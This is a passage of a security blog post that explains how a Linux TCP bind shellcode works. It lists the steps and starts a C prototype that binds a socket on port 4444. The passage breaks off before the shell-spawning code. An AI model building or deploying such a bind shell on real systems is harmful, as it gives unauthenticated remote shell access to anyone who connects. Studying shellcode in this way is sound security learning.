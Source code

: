 ```yaml
---
layout: single
title: TCP bind shellcode
date: 2018-11-18
classes: wide
header:
  teaser: /assets/images/slae32.png
categories:
  - sqli
  - infosec
tags:
  - vulhub
  - assembly
  - tcp bind shellcode
---
```

A bind shellcode listens on a socket, waiting for a connection to be made to the server then executes arbitrary code, typically spawning shell for the connecting user. This post demonstrates a simple TCP bind shellcode that executes a shell.

The shellcode does the following:
1. Creates a socket
2. Binds the socket to an IP address and port
3. Listens for incoming connections
4. Redirects STDIN, STDOUT and STDERR to the socket once a connection is made
5. Executes a shell

### C prototype
---------------
To better understand the process of creating a bind shellcode, I created a prototype in C that uses the same functions that'll be used in the assembly version. The full code is shown here. We'll walk through each section of the code after.

```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port
    addr.sin_addr.s_addr = htonl(INADDR_ANY); // Listen on any interface

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Bind socket
    if (bind(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket bind failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Listen for connection
```